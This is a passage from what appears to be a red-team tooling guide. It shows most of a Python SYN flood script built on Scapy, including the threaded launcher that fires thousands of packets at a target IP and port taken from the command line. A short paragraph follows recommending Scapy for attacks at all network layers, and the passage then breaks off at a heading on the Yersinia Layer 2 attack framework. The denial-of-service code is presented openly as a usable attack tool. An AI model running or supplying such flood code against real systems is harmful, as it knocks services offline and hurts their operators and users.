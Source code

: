 ```python
        # Print progress
        if total_sent % 100 == 0:
            print(f"[+] Sent {total_sent} packets to {target_ip}:{target_port}")
            
    print(f"[*] SYN flood completed. Sent {total_sent} packets.")

def threaded_syn_flood(target_ip, target_port, threads=10, packets_per_thread=1000):
    """
    Launch multiple threads for more efficient SYN flooding
    """
    print(f"[*] Starting threaded SYN flood with {threads} threads")
    
    # Create and start threads
    thread_list = []
    for _ in range(threads):
        t = threading.Thread(target=syn_flood, args=(target_ip, target_port, packets_per_thread))
        thread_list.append(t)
        t.start()
    
    # Wait for all threads to complete
    for t in thread_list:
        t.join()
    
    print(f"[*] Threaded SYN flood completed. Sent approximately {threads * packets_per_thread} packets.")

if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage: ./syn_flood.py TARGET_IP TARGET_PORT [THREADS] [PACKETS_PER_THREAD]")
        sys.exit(1)
    
    target_ip = sys.argv[1]
    target_port = int(sys.argv[2])
    
    threads = 10
    packets_per_thread = 1000
    
    if len(sys.argv) >= 4:
        threads = int(sys.argv[3])
    if len(sys.argv) >= 5:
        packets_per_thread = int(sys.argv[4])
    
    threaded_syn_flood(target_ip, target_port, threads, packets_per_thread)
```

Scapy's flexibility makes it an essential tool for red teamers who need to craft custom packets or build specialized tools for network manipulation. Its Python integration allows for easy extension and automation, while its comprehensive protocol support enables attacks at all network layers.

## Yersinia: Layer 2 Attack Framework
